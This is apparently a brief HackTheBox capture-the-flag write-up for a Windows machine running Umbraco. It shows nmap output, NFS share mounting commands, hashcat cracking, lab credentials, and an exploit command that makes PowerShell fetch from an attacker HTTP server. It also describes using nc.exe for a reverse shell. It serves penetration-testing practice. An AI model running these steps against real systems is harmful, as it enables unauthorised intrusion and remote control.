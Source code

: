 
> HackTheBox easy machine #windows #misconfiguration 

# NMAP 

```shell
Host is up (0.076s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-24T12:02:34
|_  start_date: N/A
|_clock-skew: 59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

> port 2049 has a public nfs share /site-backups

```shell
showmount -e $IP
mount -t nfs <ip>:<remote_folder> <local_folder> -o nolock
```

> `showmount -e` displays all export shares
> `mount -t nfs` syncs a local directory to the mount 
 
>[hacktricks source](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)


> found credentials on the directory `/App_Data/Umbraco.sdf`
> the password was hashed, used hashcat to crack the password

```
hashcat -m 100 -a 0 hash wordlist --show
```


credentials
username: admin@htb.local
password: baconandcheese

> used a python exploit to trigger remote commands 
> [exploitdb](https://www.exploit-db.com/exploits/49488) 

```shell
python exploit.py -u admin@htb.local -p baconandcheese -i <URL> -c powershell.exe -a 'Invoke WebReqeust <HTTP-server>'
```
> I downloaded and executed nc.exe to initiate a reverse shell
> found a services that can be manipulated by normal user

